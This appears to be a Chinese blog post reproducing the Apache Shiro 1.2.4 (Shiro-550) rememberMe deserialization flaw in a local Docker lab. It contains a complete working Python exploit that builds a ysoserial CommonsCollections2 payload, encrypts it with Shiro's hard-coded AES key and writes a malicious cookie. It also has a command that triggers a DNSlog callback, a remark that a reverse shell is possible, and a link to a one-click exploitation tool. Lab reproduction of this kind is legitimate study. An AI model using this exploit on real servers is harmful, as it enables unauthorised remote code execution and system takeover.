 ```yaml
---
layout:	post
title:	"Apache Shiro 1.2.4反序列化"
date:	2020-07-31 17:08:09 +0800
tags:	漏洞复现
color:	rgb(205,55,0)
cover:	'../assets/blog_pic/20200731_shiro/cover.png'
subtitle:	'Shiro-550-只是复现没有定位'

---
```


* 目录
{:toc}
# 概述

**产生原因**

shiro默认使用了CookieRememberMeManager, 其处理cookie的流程是: 得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化.然而AES的密钥是硬编码的, 就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞

**影响范围**

Apache Shiro <= 1.2.4

# 复现环境

kali里的docker，pull一个已有镜像

```
sudo docker pull medicean/vulapps:s_shiro_1
```

启动环境，8081代表环境运行在宿主机的8081端口

```
sudo docker run -d 8081:8080 medicean/vulapps:s_shiro_1
```

# 复现过程

访问http://127.0.0.1:8081

![avatar](../../assets/blog_pic/20200731_shiro/login.png)

抓包查看，响应包中存在rememberMe=deleteMe

![avatar](../../assets/blog_pic/20200731_shiro/rememberme.png)

我们这里用[DNSlog](http://www.dnslog.cn/)来证明漏洞存在，获取一个DNSlog:hvl78d.dnslog.cn

![avatar](../../assets/blog_pic/20200731_shiro/dnslog.png)

生成新的**rememberMe**脚本**shiro.py**

```
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)
```

生成新的**rememberMe**

```
python shiro.py "ping hvl78d.dnslog.cn"
```

生成一个名为payload.cookie的文件，将里面的**rememberMe**复制到之前burp抓包中，放行

![avatar](../../assets/blog_pic/20200731_shiro/repeater.png)

查看DNSlog

![avatar](../../assets/blog_pic/20200731_shiro/hvl78d.png)

证明漏洞存在，可以通过vps反弹shell



注：如果不成功，看看自己是不是登录以后抓的包，如果是登录以后抓的包就不能复现

# 高科技

ShiroExploit：支持对Shiro-550（硬编码秘钥）和Shiro-721（Padding Oracle）的一键化检测，支持简单回显。
[Github项目地址](https://github.com/feihong-cs/ShiroExploit)



# Refer

[https://cloud.tencent.com/developer/article/1540882](fuzhi)

[https://www.jianshu.com/p/0007eafd1f92](yes)









ps：文章内容均为本人学习记录，造成其他后果不负责任